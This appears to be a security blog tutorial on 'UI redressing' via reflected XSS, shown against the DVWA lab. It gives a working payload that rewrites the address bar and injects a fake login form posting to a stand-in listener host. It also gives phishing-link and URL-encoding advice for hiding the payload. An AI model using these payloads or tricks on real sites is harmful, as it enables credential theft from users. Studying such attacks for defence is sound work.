

---

### Moving Beyond alert('xss')

Most people know all about making an alert box pop or getting a cookie sent to an external site with `document.cookie`. It makes since, it is easy to demo and for the most part makes for a great proof of concept.

Unfortunately these sometimes fail to showcase some of the more potentially devious outcomes from having a site that is vulnerable to XSS.

I recently came across a form of XSS that is called ui redressing. As I researched and learned more about it I came to see how malicious a XSS attack could be.

---

### What is UI Redressing?

Redressing leverages features of html5 to call the history.replaceState or history.pushState functions to the browser. These functions allow a script to re-write what is presented in the URL bar after a page has loaded.

A script, rewrites the url presented in the address bar after loading the page. I'll let that sink in for a minute. I first came across this method randomly on [swisskeyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#ui-redressing) xss injection GitHub page.

From the example on the swisskyrepo's page history.replaceState() is leveraged to replace the page with a /login.

*Note: history.pushState() could also be used.*

When the script is ran the url bar will be re-written from:

```
http://dvwa/vulnerabilities/xss_r/?name=yogi#
```

to something a bit more devious:

```
http://dvwa/login
```

So what? Whats the big deal, the url is re-written but the page is still the page it should be. Right? Maybe, unless the page gets changed with the document.body.innerHTML property....

---

### In Practice

Up until this point we have seen how UI redressing can be used to change the address bar. Let's leverage that and also re-write the html page to something a little bit more fitting of a login url. Using the script below we can change the URL to http://dvwa/login and also create a new html page for it with document.body.innerHTML.

```html
<script>
history.replaceState(null, null, '../../../login');
document.body.innerHTML = "</br></br></br></br></br><center><h2>Please login to acces
s secure portion of our site.</h2><form action='http://SomeMaliciousListener'>Usernam
e: <input type='text'>Password: <input type='password'><input value='submit' type='su
bmit'></form>"
</script>
```

That's it. We can send a Phishing email with a url that is vulnerable to a reflected XSS and include that code as our payload.

```html
http://dvwa/vulnerabilities/xss_r/?name=<script>history.replaceState(null, null, '../../../login');document.body.innerHTML = "</br></br></br></br></br><center><h2>Please login to access secure portion of our site.</h2><form action='http://SomeMaliciousListener'>Username: <input type='text'>Password: <input type='password'><input value='submit' type='submit'></form>"</script>
```

Even though the page that is expected to load looks similar to this:


When the victim clicks the link the login page below will load:



What about site certificates? It is not a problem. The victim is still on the real site. They are just at a destination that does not really exist except for them.

Wont they notice something weird about the url? Perhaps, I do not recommend sending a url that is full of html and javascript code. URL encoding it to something like this is much more favorable.

```
http://dvwa/vulnerabilities/xss_r/?name=%3c%73%63%72%69%70%74%3e%68%69%73%74%6f%72%79%2e%72%65%70%6c%61%63%65%53%74%61%74%65%28%6e%75%6c%6c%2c%20%6e%75%6c%6c%2c%20%27%2e%2e%2f%2e%2e%2f%2e%2e%2f%6c%6f%67%69%6e%27%29%3b%64%6f%63%75%6d%65%6e%74%2e%62%6f%64%79%2e%69%6e%6e%65%72%48%54%4d%4c%20%3d%20%22%3c%2f%62%72%3e%3c%2f%62%72%3e%3c%2f%62%72%3e%3c%2f%62%72%3e%3c%2f%62%72%3e%3c%63%65%6e%74%65%72%3e%3c%68%32%3e%50%6c%65%61%73%65%20%6c%6f%67%69%6e%20%74%6f%20%61%63%63%65%73%73%20%73%65%63%75%72%65%20%70%6f%72%74%69%6f%6e%20%6f%66%20%6f%75%72%20%73%69%74%65%2e%3c%2f%68%32%3e%3c%66%6f%72%6d%20%61%63%74%69%6f%6e%3d%27%68%74%74%70%3a%2f%2f%53%6f%6d%65%4d%61%6c%69%63%69%6f%75%73%4c%69%73%74%65%6e%65%72%27%3e%55%73%65%72%6e%61%6d%65%3a%20%3c%69%6e%70%75%74%20%74%79%70%65%3d%27%74%65%78%74%27%3e%50%61%73%73%77%6f%72%64%3a%20%3c%69%6e%70%75%74%20%74%79%70%65%3d%27%70%61%73%73%77%6f%72%64%27%3e%3c%69%6e%70%75%74%20%76%61%6c%75%65%3d%27%73%75%62%6d%69%74%27%20%74%79%70%65%3d%27%73%75%62%6d%69%74%27%3e%3c%2f%66%6f%72%6d%3e%22%3c%2f%73%63%72%69%70%74%3e
```

This url looks much more 'official'. I imagine most people would see this url and think: *"oh, just your typical super long url, much be official. Let me check my training. Yup goes to the domain I expect, yup certificate is valid, must be a real site. Safe to login."* I think that the long url lends itself towards being perceived as more legitimate.